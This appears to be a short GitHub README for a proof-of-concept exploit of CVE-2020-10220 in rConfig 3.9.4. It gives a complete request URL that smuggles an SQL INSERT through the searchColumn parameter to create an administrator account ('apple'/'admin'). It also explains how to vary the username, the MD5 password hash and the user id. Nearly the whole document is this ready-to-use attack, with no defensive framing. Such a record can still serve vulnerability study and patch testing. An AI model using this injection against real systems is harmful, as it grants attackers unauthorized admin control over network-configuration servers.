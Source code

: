 # rConfig-3.9.4-SQL-injection-for-creating-admin

## CVE-2020-10220 

The following URL adds a user "apple" with password "admin" to the rConfig service. After running this, you can then login with the credentials apple:admin
```
https://192.168.95.57:8081/commands.inc.php?searchOption=contains&searchField=vuln&search=search&searchColumn=command ;INSERT INTO `users` (`id`, `username`, `password`, `userid`, `userlevel`, `email`, `timestamp`, `status`) VALUES ('450', 'apple', '21232f297a57a5a743894a0e4a801fc3', '6c97424dc92f14ae78f8cc13cd08308d', 9, 'apple@domain.com', 1346920339, 1);--
```
#### Things that can be changed:
* Obviously the username can be change. 
* The password field can be changed too. Just replace it with the corresponding md5 hash.
* For changing the id field make sure its a value between 200 and 900 (inclusive).

